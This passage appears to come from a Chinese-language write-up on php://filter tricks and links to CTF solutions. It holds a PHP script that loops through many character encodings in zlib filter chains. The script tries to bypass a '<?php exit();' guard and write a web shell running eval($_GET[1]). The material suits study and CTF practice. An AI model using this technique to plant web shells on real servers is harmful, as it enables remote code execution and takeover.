    'ISO-2022-JP-MOBILE#KDDI',
    'JIS',
    'JIS-ms',
    'CP50220',
    'CP50220raw',
    'CP50221',
    'CP50222',
    'ISO-8859-1',
    'ISO-8859-2',
    'ISO-8859-3',
    'ISO-8859-4',
    'ISO-8859-5',
    'ISO-8859-6',
    'ISO-8859-7',
    'ISO-8859-8',
    'ISO-8859-9',
    'ISO-8859-10',
    'ISO-8859-13',
    'ISO-8859-14',
    'ISO-8859-15',
    'ISO-8859-16',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW',
    'CP950',
    'BIG-5',
    'EUC-KR',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R',
    'KOI8-U',
    'ArmSCII-8',
];
@mkdir('./test');
@chdir('./test');

foreach ($a as $item) {
    $content = 'php://filter/zlib.deflate|' . $item . '|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e'.$item.'.php';
    file_put_contents($content, '<?php exit();' . $content);
}

```


# 参考及转载资料

- [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
- [关于file_put_contents的一些小测试](https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/)
- [WMctf2020 Checkin出题想法&题解](https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/)